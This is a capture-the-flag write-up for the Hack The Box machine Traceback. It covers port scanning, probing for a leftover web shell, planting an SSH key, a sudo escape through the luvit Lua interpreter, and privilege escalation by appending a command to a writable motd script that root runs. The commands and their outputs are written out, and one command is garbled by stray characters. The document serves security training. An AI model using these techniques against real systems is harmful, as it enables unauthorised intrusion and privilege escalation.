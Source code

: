 ```yaml
---
title: "HTB Traceback Write-up"
date: 2020-05-02T00:00:00-00:00
cover: /img/htb-traceback/tb-webshell2.png
description: A write-up for Traceback on hackthebox.eu
tags: ['hackthebox', 'ctf']
---
```


This is a quick write-up for the HTB machine [Traceback](https://www.hackthebox.eu/home/machines/profile/233).

## Enumeration

A quick port scan revealed a couple services.

```text
nmap -Pn 10.10.10.181

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I visited the web server, which had a "hacked" message. I tried enumerating directories, webpages, and HTTP methods, but nothing was of interest other than the message

```html
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
```

I was lost for a bit, but focusing on the message I decided to look for common web shells that might already exist on the server. Once I finally searched for `Xh4H` and `web shell` together, I found the intended twitter message linking to a list of web shells.

![.](/img/htb-traceback/tb-twitter.png)

I cloned the web shell repo and used a curl loop to see if any of the default filenames were found on the server.

```bash
git clone https://github.com/TheBinitGhimire/Web-Shells.git
for file in `ls Web-Shells`; do echo $file && vvvvvvvvvvvvvvcurl -I http://10.10.10.181/$file; done

punk-nopass.php
HTTP/1.1 404 Not Found

r57.php
HTTP/1.1 404 Not Found

smevk.php
HTTP/1.1 200 OK
```

I quickly found that one of the scripts is on the server. After visiting the web shell `10.10.10.181/smevk.php`, there is a login page and it uses the credentials hardcoded in the script.

![.](/img/htb-traceback/tb-login.png)

The web shell provides a lot of immediate info about our user-level permissions, including our username webadmin, and allows us to run a variety of post-exploitation enumeration scripts.

![.](/img/htb-traceback/tb-webshell1.png)

## Privilege Escalation

I prefer to work from a standard SSH session rather than a web shell, so I add my public SSH key to the current user's ~/.ssh/authorized_keys and then SSH to the host.

![.](/img/htb-traceback/tb-webshell2.png)

```bash
ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat May  2 19:11:34 2020 from 10.10.14.34
webadmin@traceback:~$ 
```

The first thing I notice is the connection error in the motd when connecting. I checked for the user flag in webadmin's home directory, but didn't find it. Instead there is a `note.txt` with a pointed message about lua - which implies privesc is needed.

```text
webadmin@traceback:~$ cat ~/note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

I started doing some standard user privesc checks and `sudo -l` finally led me to the next step. If you use any sort of enumeration or post post-exploitation scripts, this should get caught.

```text
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

This means that our current user `webadmin` can run the `luvit` program as `sysadmin`. Luvit happens to be a lua REPL interpreter, which lines up with the `note.txt` from earlier. Running levit as sysadmin via sudo, we can spawn a shell with sysadmin's permissions. The user flag is in sysadmin's home directory.

```text
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:~$ cat ~/user.txt
# HTB{user_flag}
```

Moving onto the root flag, I started privesc enumeration. When viewing the running processes, I noticed an odd job interacting with motd then I recalled the altered motd from earlier.

```text
root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

In hindsight, I got a little lucky with noticing the running process because it would disappear and reappear. This turned out to be a cronjob, which I believe could have been caught with further enumeration.

Checking out both directories involved in the process, I found writeable files in `/etc/update-motd.d/`. These files are altering the motd banner when connecting via SSH.

```text
sysadmin@traceback:~$ ls -lha /etc/update-motd.d/
total 32K
drwxr-xr-x  2 root sysadmin 4.0K Aug 27  2019 .
drwxr-xr-x 80 root root     4.0K Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 May  3 12:22 00-header
-rwxrwxr-x  1 root sysadmin  982 May  3 12:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4.2K May  3 12:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 May  3 12:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 May  3 12:22 91-release-upgrade

sysadmin@traceback:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

Because this file is writeable, we can add some code that will be executed by root when we first connect over SSH. I simply added a command to display the root flag in the SSH motd banner. Then I reconnected to see the flag.

```text
sysadmin@traceback:~$ echo "cat /root/root.txt" >> /etc/update-motd.d/00-header 
sysadmin@traceback:~$ exit
webadmin@traceback:~$ exit
logout
Connection to 10.10.10.181 closed.
root@kali:~# ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

HTB{root_flag}


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun May  3 12:19:35 2020 from 10.10.14.34
```